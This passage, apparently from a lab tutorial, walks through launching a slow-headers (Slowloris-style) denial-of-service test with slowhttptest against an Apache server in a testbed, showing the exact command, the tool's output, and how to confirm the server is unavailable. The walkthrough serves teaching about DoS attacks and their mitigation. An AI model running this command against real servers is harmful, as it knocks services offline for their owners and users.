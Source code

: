 
Then, on the attacker, run

<pre>
slowhttptest -c 1000 -H -g -o apache_no_mitigation -i 10 -r 200 -t GET -u http://server -x 24 -p 3 -l 120
</pre>

In the terminal output, you will see the test parameters, e.g.

```
test type:                        SLOW HEADERS
number of connections:            1000
URL:                              http://server/
verb:                             GET
Content-Length header value:      4096
follow up data max size:          52
interval between follow up data:  10 seconds
connections per seconds:          200
probe connection timeout:         3 seconds
test duration:                    120 seconds
using proxy:                      no proxy 
```

and you'll also see the current connections and their states, as well as the availability of the server. The message

```
service available:   NO
```

means that the DoS attack on the web server was successful.

This test will run for 120 seconds. After about half a minute, while the test is still running, try to access the web page again on the client node by running

```
lynx http://server
```

and verify that it is not responsive:

![](/blog/content/images/2017/04/slowloris-no.png)

Also, if you run

```
ss -nt state ESTABLISHED 'sport = :80'
```


on the server, you will see many TCP connections to port 80 in the ESTABLISHED state, a hallmark of this kind of attack.

After the test finishes running, transfer the "apache\_no\_mitigation.html" file to your laptop with scp. Open this file with a web browser. You should see an image similar to the first one in the [Results](#results) section, indicating that the large number of established connections has made the service unavailable:

![](/blog/content/images/2016/03/apache-no-mitigation.svg)
